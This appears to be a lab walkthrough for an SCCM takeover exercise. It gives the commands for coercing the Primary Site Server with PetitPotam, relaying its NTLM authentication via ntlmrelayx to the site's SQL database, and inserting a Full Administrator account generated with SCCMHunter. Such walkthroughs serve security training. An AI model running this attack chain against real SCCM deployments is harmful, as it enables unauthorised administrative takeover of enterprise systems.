





# 3 - Takover Lab Walkthrough
## Objective 1 <br> Relay the Primary Site Server to the Site Database
### Step 1 
Use SCCMHunter's ***mssql*** module to create the SQL statement to add your account as a Full Administrator
```
python3 sccmhunter.py mssql -u <username> -p <password> -dc-ip <10.x.10.10> -d ludus.domain -tu <username> -sc <sitecode> -stacked
```
<div align="center">

</div>

### Step 2 
Configure ntlmrelayx.py to target the SCCM Site Database Server (SQL Server)
```
python3 ntlmrelayx.py -smb2support -t mssql://<site-database-ip> -q "<sccmhunter-mssql-output>"
```
<div align="center">

</div>

### Step 3 
Use PetitPotam to coerce the Primary Site Server to your listening IP
```
python3 PetitPotam.py -u domainuser -p password <listening-ip> <primary-site-server-ip>
```
<div align="center">

</div>
<br>
Returning to ntlmrelayx.py, the SQL database should have been updated
<br><br>

<div align="center">

</div>

### Verify Full Administrator Privileges
Use SCCMHunter's admin module to verify your new permissions
```
python3 sccmhunter.py admin -u <username> -p <password> -ip <primary-site-server-ip>
```
<div align="center">

</div>